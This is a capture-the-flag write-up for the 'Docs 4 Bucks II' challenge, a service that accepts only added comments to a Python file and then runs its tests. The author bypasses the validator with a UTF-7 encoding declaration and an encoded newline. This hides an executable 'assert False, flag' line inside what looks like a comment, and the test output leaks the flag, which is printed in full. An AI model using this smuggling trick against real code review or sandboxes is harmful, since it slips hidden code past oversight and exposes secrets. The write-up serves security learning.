

# Docs 4 Bucks II &mdash; solution

The challenge instructs us to connect to the remote service, let's do that and
see what happens.

```
$ nc 0.cloud.chals.io 18965

 _______                                       __    __        _______                       __
|       \                                     |  \  |  \      |       \                     |  \
| $$$$$$$\  ______    _______   _______       | $$  | $$      | $$$$$$$\ __    __   _______ | $$   __   _______
| $$  | $$ /      \  /       \ /       \      | $$__| $$      | $$__/ $$|  \  |  \ /       \| $$  /  \ /       \\
| $$  | $$|  $$$$$$\|  $$$$$$$|  $$$$$$$      | $$    $$      | $$    $$| $$  | $$|  $$$$$$$| $$_/  $$|  $$$$$$$\
| $$  | $$| $$  | $$| $$       \$$    \        \$$$$$$$$      | $$$$$$$\| $$  | $$| $$      | $$   $$  \$$    \
| $$__/ $$| $$__/ $$| $$_____  _\$$$$$$\            | $$      | $$__/ $$| $$__/ $$| $$_____ | $$$$$$\  _\$$$$$$\\
| $$    $$ \$$    $$ \$$     \|       $$            | $$      | $$    $$ \$$    $$ \$$     \| $$  \$$\|       $$
 \$$$$$$$   \$$$$$$   \$$$$$$$ \$$$$$$$              \$$       \$$$$$$$   \$$$$$$   \$$$$$$$ \$$   \$$ \$$$$$$$

Welcome to Docs 4 Bucks -- You document our code, we give you $$$!!!!

RULES:
  1. Don't delete or change any existing line of code!
  2. You may only add documentation (lines starting with '#' containing ascii printable characters).
  3. Hacking is futile, we have world-class protection in place.

Your job is to document our flag_checker.py (base64):

aW1wb3J0IG9zCgpjbGFzcyBGbGFnQ2hlY2tlcjoKICAgIGRlZiBfX2luaXRfXyhzZWxmLCBwYXRoX3RvX2ZsYWc6IHN0cik6CiAgICAgICAgc2VsZi5wYXRoX3RvX2ZsYWcgPSBwYXRoX3RvX2ZsYWcKCiAgICBkZWYgY2hlY2soc2VsZikgLT4gYm9vbDoKICAgICAgICB0cnk6CiAgICAgICAgICAgIHdpdGggb3BlbihzZWxmLnBhdGhfdG9fZmxhZywgJ3InKSBhcyBmOgogICAgICAgICAgICAgICAgZmxhZyA9IGYucmVhZCgpCiAgICAgICAgZXhjZXB0IChGaWxlTm90Rm91bmRFcnJvciwgSU9FcnJvcik6CiAgICAgICAgICAgIHJldHVybiBGYWxzZQogICAgICAgIHJldHVybiBmbGFnLnN0YXJ0c3dpdGgoIkZvcnRJRHsiKSBhbmQgZmxhZy5lbmRzd2l0aCgifVxuIikKCgpkZWYgdGVzdF9mbGFnKCk6CiAgICBmbGFnX3BhdGggPSBvcy5wYXRoLmpvaW4ob3MucGF0aC5kaXJuYW1lKF9fZmlsZV9fKSwgJ3Jlc291cmNlcycsICdmbGFnLnR4dCcpCiAgICBjaGVja2VyID0gRmxhZ0NoZWNrZXIoZmxhZ19wYXRoKQogICAgYXNzZXJ0IGNoZWNrZXIuY2hlY2soKQoKCmRlZiB0ZXN0X2ludmFsaWQodG1wX3BhdGgpOgogICAgYmFkX2ZsYWcgPSB0bXBfcGF0aCAvICJiYWRfZmxhZy50eHQiCiAgICBiYWRfZmxhZy53cml0ZV90ZXh0KCJOT1RfQV9GTEFHXG4iKQogICAgY2hlY2tlciA9IEZsYWdDaGVja2VyKHN0cihiYWRfZmxhZykpCiAgICBhc3NlcnQgbm90IGNoZWNrZXIuY2hlY2soKQoKCmlmIF9fbmFtZV9fID09ICdfX21haW5fXyc6CiAgICBpbXBvcnQgcHl0ZXN0CiAgICBpbXBvcnQgc3lzCiAgICBzeXMuZXhpdChweXRlc3QubWFpbihbX19maWxlX19dKSkK

Submit documented version of the code (base64):
```

Apparently, we need to document the code we've been given. Let's inspect it by
decoding from base64.

```
$ echo "aW1wb3J0IG9zCgpjbGFzcyBGbGFnQ2hlY2tlcjoKICAgIGRlZiBfX2luaXRfXyhzZWxmLCBwYXRoX3RvX2ZsYWc6IHN0cik6CiAgICAgICAgc2VsZi5wYXRoX3RvX2ZsYWcgPSBwYXRoX3RvX2ZsYWcKCiAgICBkZWYgY2hlY2soc2VsZikgLT4gYm9vbDoKICAgICAgICB0cnk6CiAgICAgICAgICAgIHdpdGggb3BlbihzZWxmLnBhdGhfdG9fZmxhZywgJ3InKSBhcyBmOgogICAgICAgICAgICAgICAgZmxhZyA9IGYucmVhZCgpCiAgICAgICAgZXhjZXB0IChGaWxlTm90Rm91bmRFcnJvciwgSU9FcnJvcik6CiAgICAgICAgICAgIHJldHVybiBGYWxzZQogICAgICAgIHJldHVybiBmbGFnLnN0YXJ0c3dpdGgoIkZvcnRJRHsiKSBhbmQgZmxhZy5lbmRzd2l0aCgifVxuIikKCgpkZWYgdGVzdF9mbGFnKCk6CiAgICBmbGFnX3BhdGggPSBvcy5wYXRoLmpvaW4ob3MucGF0aC5kaXJuYW1lKF9fZmlsZV9fKSwgJ3Jlc291cmNlcycsICdmbGFnLnR4dCcpCiAgICBjaGVja2VyID0gRmxhZ0NoZWNrZXIoZmxhZ19wYXRoKQogICAgYXNzZXJ0IGNoZWNrZXIuY2hlY2soKQoKCmRlZiB0ZXN0X2ludmFsaWQodG1wX3BhdGgpOgogICAgYmFkX2ZsYWcgPSB0bXBfcGF0aCAvICJiYWRfZmxhZy50eHQiCiAgICBiYWRfZmxhZy53cml0ZV90ZXh0KCJOT1RfQV9GTEFHXG4iKQogICAgY2hlY2tlciA9IEZsYWdDaGVja2VyKHN0cihiYWRfZmxhZykpCiAgICBhc3NlcnQgbm90IGNoZWNrZXIuY2hlY2soKQoKCmlmIF9fbmFtZV9fID09ICdfX21haW5fXyc6CiAgICBpbXBvcnQgcHl0ZXN0CiAgICBpbXBvcnQgc3lzCiAgICBzeXMuZXhpdChweXRlc3QubWFpbihbX19maWxlX19dKSkK" | base64 -d

import os

class FlagChecker:
    def __init__(self, path_to_flag: str):
        self.path_to_flag = path_to_flag

    def check(self) -> bool:
        try:
            with open(self.path_to_flag, 'r') as f:
                flag = f.read()
        except (FileNotFoundError, IOError):
            return False
        return flag.startswith("FortID{") and flag.endswith("}\n")


def test_flag():
    flag_path = os.path.join(os.path.dirname(__file__), 'resources', 'flag.txt')
    checker = FlagChecker(flag_path)
    assert checker.check()


def test_invalid(tmp_path):
    bad_flag = tmp_path / "bad_flag.txt"
    bad_flag.write_text("NOT_A_FLAG\n")
    checker = FlagChecker(str(bad_flag))
    assert not checker.check()


if __name__ == '__main__':
    import pytest
    import sys
    sys.exit(pytest.main([__file__]))
```

Cool, looks like we're dealing with a simple piece of Python code. It also
reveals that the flag is located at `./resources/flag.txt`, our job is to
somehow get to it.

Let's submit the same code back to the service and see what happens:

```
$ nc 0.cloud.chals.io 18965

 _______                                       __    __        _______                       __
|       \                                     |  \  |  \      |       \                     |  \
| $$$$$$$\  ______    _______   _______       | $$  | $$      | $$$$$$$\ __    __   _______ | $$   __   _______
| $$  | $$ /      \  /       \ /       \      | $$__| $$      | $$__/ $$|  \  |  \ /       \| $$  /  \ /       \\
| $$  | $$|  $$$$$$\|  $$$$$$$|  $$$$$$$      | $$    $$      | $$    $$| $$  | $$|  $$$$$$$| $$_/  $$|  $$$$$$$\
| $$  | $$| $$  | $$| $$       \$$    \        \$$$$$$$$      | $$$$$$$\| $$  | $$| $$      | $$   $$  \$$    \
| $$__/ $$| $$__/ $$| $$_____  _\$$$$$$\            | $$      | $$__/ $$| $$__/ $$| $$_____ | $$$$$$\  _\$$$$$$\\
| $$    $$ \$$    $$ \$$     \|       $$            | $$      | $$    $$ \$$    $$ \$$     \| $$  \$$\|       $$
 \$$$$$$$   \$$$$$$   \$$$$$$$ \$$$$$$$              \$$       \$$$$$$$   \$$$$$$   \$$$$$$$ \$$   \$$ \$$$$$$$

Welcome to Docs 4 Bucks -- You document our code, we give you $$$!!!!

RULES:
  1. Don't delete or change any existing line of code!
  2. You may only add documentation (lines starting with '#' containing ascii printable characters).
  3. Hacking is futile, we have world-class protection in place.

Your job is to document our flag_checker.py (base64):

aW1wb3J0IG9zCgpjbGFzcyBGbGFnQ2hlY2tlcjoKICAgIGRlZiBfX2luaXRfXyhzZWxmLCBwYXRoX3RvX2ZsYWc6IHN0cik6CiAgICAgICAgc2VsZi5wYXRoX3RvX2ZsYWcgPSBwYXRoX3RvX2ZsYWcKCiAgICBkZWYgY2hlY2soc2VsZikgLT4gYm9vbDoKICAgICAgICB0cnk6CiAgICAgICAgICAgIHdpdGggb3BlbihzZWxmLnBhdGhfdG9fZmxhZywgJ3InKSBhcyBmOgogICAgICAgICAgICAgICAgZmxhZyA9IGYucmVhZCgpCiAgICAgICAgZXhjZXB0IChGaWxlTm90Rm91bmRFcnJvciwgSU9FcnJvcik6CiAgICAgICAgICAgIHJldHVybiBGYWxzZQogICAgICAgIHJldHVybiBmbGFnLnN0YXJ0c3dpdGgoIkZvcnRJRHsiKSBhbmQgZmxhZy5lbmRzd2l0aCgifVxuIikKCgpkZWYgdGVzdF9mbGFnKCk6CiAgICBmbGFnX3BhdGggPSBvcy5wYXRoLmpvaW4ob3MucGF0aC5kaXJuYW1lKF9fZmlsZV9fKSwgJ3Jlc291cmNlcycsICdmbGFnLnR4dCcpCiAgICBjaGVja2VyID0gRmxhZ0NoZWNrZXIoZmxhZ19wYXRoKQogICAgYXNzZXJ0IGNoZWNrZXIuY2hlY2soKQoKCmRlZiB0ZXN0X2ludmFsaWQodG1wX3BhdGgpOgogICAgYmFkX2ZsYWcgPSB0bXBfcGF0aCAvICJiYWRfZmxhZy50eHQiCiAgICBiYWRfZmxhZy53cml0ZV90ZXh0KCJOT1RfQV9GTEFHXG4iKQogICAgY2hlY2tlciA9IEZsYWdDaGVja2VyKHN0cihiYWRfZmxhZykpCiAgICBhc3NlcnQgbm90IGNoZWNrZXIuY2hlY2soKQoKCmlmIF9fbmFtZV9fID09ICdfX21haW5fXyc6CiAgICBpbXBvcnQgcHl0ZXN0CiAgICBpbXBvcnQgc3lzCiAgICBzeXMuZXhpdChweXRlc3QubWFpbihbX19maWxlX19dKSkK

Submit documented version of the code (base64):

aW1wb3J0IG9zCgpjbGFzcyBGbGFnQ2hlY2tlcjoKICAgIGRlZiBfX2luaXRfXyhzZWxmLCBwYXRoX3RvX2ZsYWc6IHN0cik6CiAgICAgICAgc2VsZi5wYXRoX3RvX2ZsYWcgPSBwYXRoX3RvX2ZsYWcKCiAgICBkZWYgY2hlY2soc2VsZikgLT4gYm9vbDoKICAgICAgICB0cnk6CiAgICAgICAgICAgIHdpdGggb3BlbihzZWxmLnBhdGhfdG9fZmxhZywgJ3InKSBhcyBmOgogICAgICAgICAgICAgICAgZmxhZyA9IGYucmVhZCgpCiAgICAgICAgZXhjZXB0IChGaWxlTm90Rm91bmRFcnJvciwgSU9FcnJvcik6CiAgICAgICAgICAgIHJldHVybiBGYWxzZQogICAgICAgIHJldHVybiBmbGFnLnN0YXJ0c3dpdGgoIkZvcnRJRHsiKSBhbmQgZmxhZy5lbmRzd2l0aCgifVxuIikKCgpkZWYgdGVzdF9mbGFnKCk6CiAgICBmbGFnX3BhdGggPSBvcy5wYXRoLmpvaW4ob3MucGF0aC5kaXJuYW1lKF9fZmlsZV9fKSwgJ3Jlc291cmNlcycsICdmbGFnLnR4dCcpCiAgICBjaGVja2VyID0gRmxhZ0NoZWNrZXIoZmxhZ19wYXRoKQogICAgYXNzZXJ0IGNoZWNrZXIuY2hlY2soKQoKCmRlZiB0ZXN0X2ludmFsaWQodG1wX3BhdGgpOgogICAgYmFkX2ZsYWcgPSB0bXBfcGF0aCAvICJiYWRfZmxhZy50eHQiCiAgICBiYWRfZmxhZy53cml0ZV90ZXh0KCJOT1RfQV9GTEFHXG4iKQogICAgY2hlY2tlciA9IEZsYWdDaGVja2VyKHN0cihiYWRfZmxhZykpCiAgICBhc3NlcnQgbm90IGNoZWNrZXIuY2hlY2soKQoKCmlmIF9fbmFtZV9fID09ICdfX21haW5fXyc6CiAgICBpbXBvcnQgcHl0ZXN0CiAgICBpbXBvcnQgc3lzCiAgICBzeXMuZXhpdChweXRlc3QubWFpbihbX19maWxlX19dKSkK
Thank you for your contribution, we'll run the test suite just to be safe...

..                                                                       [100%]
2 passed in 0.01s

Our engineers will review your submission and we'll let you know if your contribution is $$$ worthy
```

Looks like the service runs `pytest` on the given code. The instructions say we
are only allowed to add documentation, let's see what happens if we disregard
those instructions.

```
$ nc 0.cloud.chals.io 18965

 _______                                       __    __        _______                       __
|       \                                     |  \  |  \      |       \                     |  \
| $$$$$$$\  ______    _______   _______       | $$  | $$      | $$$$$$$\ __    __   _______ | $$   __   _______
| $$  | $$ /      \  /       \ /       \      | $$__| $$      | $$__/ $$|  \  |  \ /       \| $$  /  \ /       \\
| $$  | $$|  $$$$$$\|  $$$$$$$|  $$$$$$$      | $$    $$      | $$    $$| $$  | $$|  $$$$$$$| $$_/  $$|  $$$$$$$\
| $$  | $$| $$  | $$| $$       \$$    \        \$$$$$$$$      | $$$$$$$\| $$  | $$| $$      | $$   $$  \$$    \
| $$__/ $$| $$__/ $$| $$_____  _\$$$$$$\            | $$      | $$__/ $$| $$__/ $$| $$_____ | $$$$$$\  _\$$$$$$\\
| $$    $$ \$$    $$ \$$     \|       $$            | $$      | $$    $$ \$$    $$ \$$     \| $$  \$$\|       $$
 \$$$$$$$   \$$$$$$   \$$$$$$$ \$$$$$$$              \$$       \$$$$$$$   \$$$$$$   \$$$$$$$ \$$   \$$ \$$$$$$$

Welcome to Docs 4 Bucks -- You document our code, we give you $$$!!!!

RULES:
  1. Don't delete or change any existing line of code!
  2. You may only add documentation (lines starting with '#' containing ascii printable characters).
  3. Hacking is futile, we have world-class protection in place.

Your job is to document our flag_checker.py (base64):

aW1wb3J0IG9zCgpjbGFzcyBGbGFnQ2hlY2tlcjoKICAgIGRlZiBfX2luaXRfXyhzZWxmLCBwYXRoX3RvX2ZsYWc6IHN0cik6CiAgICAgICAgc2VsZi5wYXRoX3RvX2ZsYWcgPSBwYXRoX3RvX2ZsYWcKCiAgICBkZWYgY2hlY2soc2VsZikgLT4gYm9vbDoKICAgICAgICB0cnk6CiAgICAgICAgICAgIHdpdGggb3BlbihzZWxmLnBhdGhfdG9fZmxhZywgJ3InKSBhcyBmOgogICAgICAgICAgICAgICAgZmxhZyA9IGYucmVhZCgpCiAgICAgICAgZXhjZXB0IChGaWxlTm90Rm91bmRFcnJvciwgSU9FcnJvcik6CiAgICAgICAgICAgIHJldHVybiBGYWxzZQogICAgICAgIHJldHVybiBmbGFnLnN0YXJ0c3dpdGgoIkZvcnRJRHsiKSBhbmQgZmxhZy5lbmRzd2l0aCgifVxuIikKCgpkZWYgdGVzdF9mbGFnKCk6CiAgICBmbGFnX3BhdGggPSBvcy5wYXRoLmpvaW4ob3MucGF0aC5kaXJuYW1lKF9fZmlsZV9fKSwgJ3Jlc291cmNlcycsICdmbGFnLnR4dCcpCiAgICBjaGVja2VyID0gRmxhZ0NoZWNrZXIoZmxhZ19wYXRoKQogICAgYXNzZXJ0IGNoZWNrZXIuY2hlY2soKQoKCmRlZiB0ZXN0X2ludmFsaWQodG1wX3BhdGgpOgogICAgYmFkX2ZsYWcgPSB0bXBfcGF0aCAvICJiYWRfZmxhZy50eHQiCiAgICBiYWRfZmxhZy53cml0ZV90ZXh0KCJOT1RfQV9GTEFHXG4iKQogICAgY2hlY2tlciA9IEZsYWdDaGVja2VyKHN0cihiYWRfZmxhZykpCiAgICBhc3NlcnQgbm90IGNoZWNrZXIuY2hlY2soKQoKCmlmIF9fbmFtZV9fID09ICdfX21haW5fXyc6CiAgICBpbXBvcnQgcHl0ZXN0CiAgICBpbXBvcnQgc3lzCiAgICBzeXMuZXhpdChweXRlc3QubWFpbihbX19maWxlX19dKSkK

Submit documented version of the code (base64):

cHJpbnQob3BlbigiLi9yZXNvdXJjZXMvZmxhZy50eHQiLCAiciIpLnJlYWQoKSkK
H4cking attempt detected...
No $$$ for you!!
```

Looks like the service performs some checks (likely corresponding to the
rules), and doesn't run tests if the validation doesn't pass.

The intended way of circumventing the checks is by exploiting Python's
[encoding
declarations](https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations).



In other words, we'll add a comment line `# coding: utf-7` which has a special
meaning for the Python interpreter, and hopefully the remote service doesn't
take it into account.

The newline character in [UTF-7](https://en.wikipedia.org/wiki/UTF-7) can be
written as `+AAo-`, so adding a line such as `#+AAo- assert False, flag` should
likely be interpreted by the remote service as a comment, while the Python
interpreter should execute the `assert False, flag` code.

Putting it all together looks like this:

```python
# coding: utf-7
import os

class FlagChecker:
    def __init__(self, path_to_flag: str):
        self.path_to_flag = path_to_flag

    def check(self) -> bool:
        try:
            with open(self.path_to_flag, 'r') as f:
                flag = f.read()
                #+AAo-                assert False, flag
        except (FileNotFoundError, IOError):
            return False
        return flag.startswith("FortID{") and flag.endswith("}\n")


def test_flag():
    flag_path = os.path.join(os.path.dirname(__file__), 'resources', 'flag.txt')
    checker = FlagChecker(flag_path)
    assert checker.check()


def test_invalid(tmp_path):
    bad_flag = tmp_path / "bad_flag.txt"
    bad_flag.write_text("NOT_A_FLAG\n")
    checker = FlagChecker(str(bad_flag))
    assert not checker.check()


if __name__ == '__main__':
    import pytest
    import sys
    sys.exit(pytest.main([__file__]))
```

Let's base64 encode and submit to the remote service.

```
$ nc 0.cloud.chals.io 18965

 _______                                       __    __        _______                       __
|       \                                     |  \  |  \      |       \                     |  \
| $$$$$$$\  ______    _______   _______       | $$  | $$      | $$$$$$$\ __    __   _______ | $$   __   _______
| $$  | $$ /      \  /       \ /       \      | $$__| $$      | $$__/ $$|  \  |  \ /       \| $$  /  \ /       \\
| $$  | $$|  $$$$$$\|  $$$$$$$|  $$$$$$$      | $$    $$      | $$    $$| $$  | $$|  $$$$$$$| $$_/  $$|  $$$$$$$\
| $$  | $$| $$  | $$| $$       \$$    \        \$$$$$$$$      | $$$$$$$\| $$  | $$| $$      | $$   $$  \$$    \
| $$__/ $$| $$__/ $$| $$_____  _\$$$$$$\            | $$      | $$__/ $$| $$__/ $$| $$_____ | $$$$$$\  _\$$$$$$\\
| $$    $$ \$$    $$ \$$     \|       $$            | $$      | $$    $$ \$$    $$ \$$     \| $$  \$$\|       $$
 \$$$$$$$   \$$$$$$   \$$$$$$$ \$$$$$$$              \$$       \$$$$$$$   \$$$$$$   \$$$$$$$ \$$   \$$ \$$$$$$$

Welcome to Docs 4 Bucks -- You document our code, we give you $$$!!!!

RULES:
  1. Don't delete or change any existing line of code!
  2. You may only add documentation (lines starting with '#' containing ascii printable characters).
  3. Hacking is futile, we have world-class protection in place.

Your job is to document our flag_checker.py (base64):

aW1wb3J0IG9zCgpjbGFzcyBGbGFnQ2hlY2tlcjoKICAgIGRlZiBfX2luaXRfXyhzZWxmLCBwYXRoX3RvX2ZsYWc6IHN0cik6CiAgICAgICAgc2VsZi5wYXRoX3RvX2ZsYWcgPSBwYXRoX3RvX2ZsYWcKCiAgICBkZWYgY2hlY2soc2VsZikgLT4gYm9vbDoKICAgICAgICB0cnk6CiAgICAgICAgICAgIHdpdGggb3BlbihzZWxmLnBhdGhfdG9fZmxhZywgJ3InKSBhcyBmOgogICAgICAgICAgICAgICAgZmxhZyA9IGYucmVhZCgpCiAgICAgICAgZXhjZXB0IChGaWxlTm90Rm91bmRFcnJvciwgSU9FcnJvcik6CiAgICAgICAgICAgIHJldHVybiBGYWxzZQogICAgICAgIHJldHVybiBmbGFnLnN0YXJ0c3dpdGgoIkZvcnRJRHsiKSBhbmQgZmxhZy5lbmRzd2l0aCgifVxuIikKCgpkZWYgdGVzdF9mbGFnKCk6CiAgICBmbGFnX3BhdGggPSBvcy5wYXRoLmpvaW4ob3MucGF0aC5kaXJuYW1lKF9fZmlsZV9fKSwgJ3Jlc291cmNlcycsICdmbGFnLnR4dCcpCiAgICBjaGVja2VyID0gRmxhZ0NoZWNrZXIoZmxhZ19wYXRoKQogICAgYXNzZXJ0IGNoZWNrZXIuY2hlY2soKQoKCmRlZiB0ZXN0X2ludmFsaWQodG1wX3BhdGgpOgogICAgYmFkX2ZsYWcgPSB0bXBfcGF0aCAvICJiYWRfZmxhZy50eHQiCiAgICBiYWRfZmxhZy53cml0ZV90ZXh0KCJOT1RfQV9GTEFHXG4iKQogICAgY2hlY2tlciA9IEZsYWdDaGVja2VyKHN0cihiYWRfZmxhZykpCiAgICBhc3NlcnQgbm90IGNoZWNrZXIuY2hlY2soKQoKCmlmIF9fbmFtZV9fID09ICdfX21haW5fXyc6CiAgICBpbXBvcnQgcHl0ZXN0CiAgICBpbXBvcnQgc3lzCiAgICBzeXMuZXhpdChweXRlc3QubWFpbihbX19maWxlX19dKSkK

Submit documented version of the code (base64):

IyBjb2Rpbmc6IHV0Zi03CmltcG9ydCBvcwoKY2xhc3MgRmxhZ0NoZWNrZXI6CiAgICBkZWYgX19pbml0X18oc2VsZiwgcGF0aF90b19mbGFnOiBzdHIpOgogICAgICAgIHNlbGYucGF0aF90b19mbGFnID0gcGF0aF90b19mbGFnCgogICAgZGVmIGNoZWNrKHNlbGYpIC0+IGJvb2w6CiAgICAgICAgdHJ5OgogICAgICAgICAgICB3aXRoIG9wZW4oc2VsZi5wYXRoX3RvX2ZsYWcsICdyJykgYXMgZjoKICAgICAgICAgICAgICAgIGZsYWcgPSBmLnJlYWQoKQogICAgICAgICAgICAgICAgIytBQW8tICAgICAgICAgICAgICAgIGFzc2VydCBGYWxzZSwgZmxhZwogICAgICAgIGV4Y2VwdCAoRmlsZU5vdEZvdW5kRXJyb3IsIElPRXJyb3IpOgogICAgICAgICAgICByZXR1cm4gRmFsc2UKICAgICAgICByZXR1cm4gZmxhZy5zdGFydHN3aXRoKCJGb3J0SUR7IikgYW5kIGZsYWcuZW5kc3dpdGgoIn1cbiIpCgoKZGVmIHRlc3RfZmxhZygpOgogICAgZmxhZ19wYXRoID0gb3MucGF0aC5qb2luKG9zLnBhdGguZGlybmFtZShfX2ZpbGVfXyksICdyZXNvdXJjZXMnLCAnZmxhZy50eHQnKQogICAgY2hlY2tlciA9IEZsYWdDaGVja2VyKGZsYWdfcGF0aCkKICAgIGFzc2VydCBjaGVja2VyLmNoZWNrKCkKCgpkZWYgdGVzdF9pbnZhbGlkKHRtcF9wYXRoKToKICAgIGJhZF9mbGFnID0gdG1wX3BhdGggLyAiYmFkX2ZsYWcudHh0IgogICAgYmFkX2ZsYWcud3JpdGVfdGV4dCgiTk9UX0FfRkxBR1xuIikKICAgIGNoZWNrZXIgPSBGbGFnQ2hlY2tlcihzdHIoYmFkX2ZsYWcpKQogICAgYXNzZXJ0IG5vdCBjaGVja2VyLmNoZWNrKCkKCgppZiBfX25hbWVfXyA9PSAnX19tYWluX18nOgogICAgaW1wb3J0IHB5dGVzdAogICAgaW1wb3J0IHN5cwogICAgc3lzLmV4aXQocHl0ZXN0Lm1haW4oW19fZmlsZV9fXSkpCg==
Thank you for your contribution, we'll run the test
 suite just to be safe...

FF                                                                       [100%]
=================================== FAILURES ===================================
__________________________________ test_flag ___________________________________

    def test_flag():
        flag_path = os.path.join(os.path.dirname(__file__), 'resources', 'flag.txt')
        checker = FlagChecker(flag_path)
>       assert checker.check()
               ^^^^^^^^^^^^^^^

flag_checker.py:22:
_ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _

self = <flag_checker.FlagChecker object at 0x7fa2c2fce9f0>

    def check(self) -> bool:
        try:
            with open(self.path_to_flag, 'r') as f:
                flag = f.read()
                #
>               assert False, flag
E               AssertionError: FortID{Y0u_Add3d_S0m3_C0mm3n75_4nD_G07_Th3_Fl4g_:0}
E
E               assert False

flag_checker.py:13: AssertionError
_________________________________ test_invalid _________________________________

tmp_path = PosixPath('/tmp/pytest-of-root/pytest-1369/test_invalid0')

    def test_invalid(tmp_path):
        bad_flag = tmp_path / "bad_flag.txt"
        bad_flag.write_text("NOT_A_FLAG\n")
        checker = FlagChecker(str(bad_flag))
>       assert not checker.check()
                   ^^^^^^^^^^^^^^^

flag_checker.py:29:
_ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _

self = <flag_checker.FlagChecker object at 0x7fa2c261f050>

    def check(self) -> bool:
        try:
            with open(self.path_to_flag, 'r') as f:
                flag = f.read()
                #
>               assert False, flag
E               AssertionError: NOT_A_FLAG
E
E               assert False

flag_checker.py:13: AssertionError
=========================== short test summary info ============================
FAILED flag_checker.py::test_flag - AssertionError: FortID{Y0u_Add3d_S0m3_C0m...
FAILED flag_checker.py::test_invalid - AssertionError: NOT_A_FLAG
2 failed in 0.04s
```

Worked like a charm and revealed the flag: `FortID{Y0u_Add3d_S0m3_C0mm3n75_4nD_G07_Th3_Fl4g_:0}`.
